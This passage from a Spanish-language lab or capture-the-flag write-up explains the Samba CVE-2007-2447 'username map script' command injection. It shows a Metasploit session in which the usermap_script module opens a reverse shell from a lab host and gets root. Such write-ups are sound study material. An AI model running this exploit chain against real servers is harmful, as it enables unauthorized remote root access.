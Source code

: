 Nuevamente, `metasploit-framework` tiene escrito ya el exploit dentro del framework, así que pasemos a utilizarlo.

# Command Execution

Después de revisar este [exploit](https://github.com/amriunix/CVE-2007-2447), observaremos que su funcionamiento se basa en:

> The root cause is passing unfiltered user input provided via MS-RPC calls to /bin/sh when invoking non-default "username map script" configuration option in smb.conf, so no authentication is needed to exploit this vulnerability.

Básicamente cuando le pasamos el usuario durante la conexión, el nombre del usuario es usado para ejecutar comandos sobre sh, por lo que si mandamos expresiones de sustitución o evaluación script de sh, podemos ejecutar remotamente código que nos permita llamar a una conexión en reversa. Esto es lo que hace MSF tras bambalinas:

```
msf5 > use exploit/multi/samba/usermap_script
msf5 exploit(multi/samba/usermap_script) > show options

Module options (exploit/multi/samba/usermap_script):

   Name    Current Setting  Required  Description
   ----    ---------------  --------  -----------
   RHOSTS                   yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT   139              yes       The target port (TCP)


Exploit target:

   Id  Name
   --  ----
   0   Automatic


msf5 exploit(multi/samba/usermap_script) > set RHOSTS 10.10.10.3
RHOSTS => 10.10.10.3
msf5 exploit(multi/samba/usermap_script) > exploit

[*] Started reverse TCP double handler on 10.10.14.23:4444
[*] Accepted the first client connection...
[*] Accepted the second client connection...
[*] Command: echo 11hUeTXzLVKsyhQx;
[*] Writing to socket A
[*] Writing to socket B
[*] Reading from sockets...
[*] Reading from socket B
[*] B: "11hUeTXzLVKsyhQx\r\n"
[*] Matching...
[*] A is input...
[*] Command shell session 1 opened (10.10.14.23:4444 -> 10.10.10.3:33932) at 2019-10-05 20:00:32 -0500


id
uid=0(root) gid=0(root)
```
